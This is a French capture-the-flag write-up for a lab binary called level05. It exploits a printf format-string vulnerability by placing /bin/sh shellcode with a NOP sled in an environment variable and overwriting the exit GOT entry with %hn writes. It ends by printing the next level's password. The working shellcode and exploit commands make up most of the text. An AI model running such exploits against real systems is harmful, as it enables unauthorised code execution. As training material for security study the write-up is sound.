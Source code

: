 # LEVEL 05

On trouve un binaire level05 à la racine du répo, contenant une fonction **main**.

En traduisant le code (**source.c**), le programme commence avec un **fgets** qui lit sur stdin.  Par la suite, un **tolower** est appliqué sur la string reçu.
La string est alors affiché par un **printf** avant que le programme appele un **exit**.

**Printf** ne prennant pas d'argument, on va pouvoir exploiter sont fonctionnement avec un **SHELLCODE**.

On commence par ajouter notre **SHELLCODE** aux variables d'environnements afin de récuperer son adresse plus tard :

```bash
> export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"'`
```

Avec gdb, nous allons cherché l'adresse de notre **SHELLCODE**, on va ensuite récupérer une adresse qui pointe au milieu de notre **nop slide**.
On en profite pour récupérer l'adresse dans la **GOT** qui jump vers la fonction **exit** :

```gdb
gdb -q level05
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b *main
Breakpoint 1 at 0x8048444
(gdb) run
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048444 in main ()
(gdb) x/200xs environ
...
0xffffd867:      "SHELLCODE=\220\220\220\220\220....
...
(gdb) x/200sx 0xffffd867
0xffffd867:     0x4c454853      0x444f434c      0x90903d45      0x90909090
0xffffd877:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd887:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd897:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8a7:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8b7:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd8c7:     0x90909090      0x90909090      0x90909090      0xc0319090
....

(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
(gdb) x 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
(gdb) x 0x80497e2
0x80497e2 <exit@got.plt+2>:     0x83860804

```

> adresse dans la nop slide : 0xffffd887
> adresse du exit :  0x80497e0
> adresse du exit + 2 :  0x80497e2

Maintenant on va chercher l'offset de notre printf :

```bash
> (python -c "print 'B' * 4 + '|%08x ' * 15") | ./level05
bbbb|00000064 |f7fcfac0 |f7ec3af9 |ffffd6df |ffffd6de |00000000 |ffffffff |ffffd764 |f7fdb000 |62626262 |3830257c |257c2078 |20783830 |3830257c |257c2078
```

Notre offset apparait au niveau de nos `b` (62 en valeur hexadecimale), au 10 ème octet dans notre **stack**. On sait donc que notre première argument lu par **printf** sera à cette adresse.
On va chercher à ecrire la valeur décimale de notre nop slide au niveau de l'adresse du exit. Pour ça, on va employer la méthode du **format string attack**, **2 bytes by 2 bytes**, Donc écrire les 2 premiers bytes de l'adresse de notre  **nop slide** puis les deux suivants car il serait trop lent d'insérer  la totalité en une fois, cela nous ferais une taille de champ trop grande (+ de 4 milliard !).

On prend donc notre adresse dans la nop slide et on la coupe en deux:
`ffff` et `d887`. On affiche leurs valeurs en décimal:

```gdb
(gdb) > p 0xffff
$3 = 65535
(gdb) > p 0xd887
$4 = 55431
```

On doit soustraire la taille de champ écrite par notre premier argument à notre deuxième: `65535 - 55431 = 10104`
On formate par la suite notre **format string attack** avec nos 4 bytes séparés en deux:

```bash
(python -c "print '\xe0\x97\x04\x08' + '\xe2\x97\x04\x08' + '%55423c' + '%10\$hn'+ '%10104c' + '%11\$hn'"; cat) | ./level05
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

###### VICTORY
